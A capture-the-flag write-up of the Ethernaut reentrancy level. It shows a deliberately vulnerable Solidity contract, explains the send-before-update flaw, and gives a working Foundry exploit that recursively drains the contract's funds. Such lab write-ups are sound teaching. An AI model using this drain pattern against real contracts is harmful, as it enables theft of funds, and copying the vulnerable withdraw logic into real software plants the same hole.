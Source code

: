 ```yaml
---
title: 'Re-entrancy - The Ethernaut'
cover: https://ethernaut.openzeppelin.com/imgs/Level10.svg
categories: ["ctf"]
tags: ["blockchain","ethernaut"]
date: 2025-09-18
lastmod: 2025-09-18
---
```


## Challenge Overview

This level involves a contract vulnerable to a classic reentrancy attack. The goal is to drain all funds from the contract by exploiting the unsafe order of operations in the `withdraw()` function, which sends Ether before updating the user's balance.

---

## Challenge Code

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import "openzeppelin-contracts-06/math/SafeMath.sol";

contract Reentrance {
    using SafeMath for uint256;

    mapping(address => uint256) public balances;

    function donate(address _to) public payable {
        balances[_to] = balances[_to].add(msg.value);
    }

    function balanceOf(address _who) public view returns (uint256 balance) {
        return balances[_who];
    }

    function withdraw(uint256 _amount) public {
        if (balances[msg.sender] >= _amount) {
            (bool result,) = msg.sender.call{value: _amount}("");
            if (result) {
                _amount;
            }
            balances[msg.sender] -= _amount;
        }
    }

    receive() external payable {}
}
```

---

## Exploit Explanation

The critical vulnerability is in the `withdraw()` function:

```solidity
function withdraw(uint256 _amount) public {
    if (balances[msg.sender] >= _amount) {
        (bool result,) = msg.sender.call{value: _amount}("");  // Ether sent first
        if (result) {
            _amount;
        }
        balances[msg.sender] -= _amount;  // Balance updated later
    }
}
```

The unsafe order of operations allows for a reentrancy attack:
1. The contract sends Ether to the caller **before** updating their balance
2. A malicious contract can implement a `receive()` function that calls `withdraw()` again
3. Since the balance hasn't been updated yet, the second withdrawal also succeeds
4. This recursive pattern continues until all contract funds are drained

The attack sequence:
1. Donate 0.001 ether to create a balance in the malicious contract
2. Call `withdraw(0.001 ether)` to trigger the attack
3. The malicious contract's `receive()` function recursively calls `withdraw()` again
4. Repeat until the target contract is drained

---

## Exploit Script

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.6.12;

import "forge-std/Script.sol";
import "forge-std/console.sol";
import "../src/Reentrance.sol";

contract Evil {
    Reentrance public reentranceInstance = Reentrance(payable(<YOUR_INSTANCE>));

    constructor() public payable {
        reentranceInstance.donate{value: 0.001 ether}(address(this));
    }

    function attack() public payable {
        reentranceInstance.withdraw(0.001 ether);
        address(msg.sender).call{value: 0.002 ether}("");
    }

    receive() external payable {
        reentranceInstance.withdraw(0.001 ether);
    }
}

contract ReentranceSolution is Script {
    function run() public {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
        Evil evil = new Evil{value: 0.001 ether}();
        evil.attack{value: 0.001 ether}();
        vm.stopBroadcast();
    }
}
```

---

## Proof of Concept (PoC)

Execute the exploit with Foundry:

```bash
forge script script/ReentranceSolution.s.sol --rpc-url $SEPOLIA_URL --tc ReentranceSolution --broadcast
```

## Solving SafeMath Import Issue

Similar to previous challenges using Solidity <0.8.0, we need to resolve the SafeMath import issue:

### 1. Configure `foundry.toml`

```toml
solc_version = "0.6.12"
remappings = [
    "forge-std/=lib/forge-std/src/",
    "@openzeppelin/contracts/=lib/openzeppelin-contracts/contracts/"
]
```

### 2. Install the Correct OpenZeppelin Release

```bash
forge install openzeppelin/openzeppelin-contracts@v3.4.2
```

### 3. Update the Import Path

Modify the import statement in the challenge contract:

```diff
- import "openzeppelin-contracts-06/math/SafeMath.sol";
+ import "@openzeppelin/contracts/math/SafeMath.sol";
```

This ensures the compiler correctly resolves the SafeMath dependency for `pragma solidity ^0.6.12`.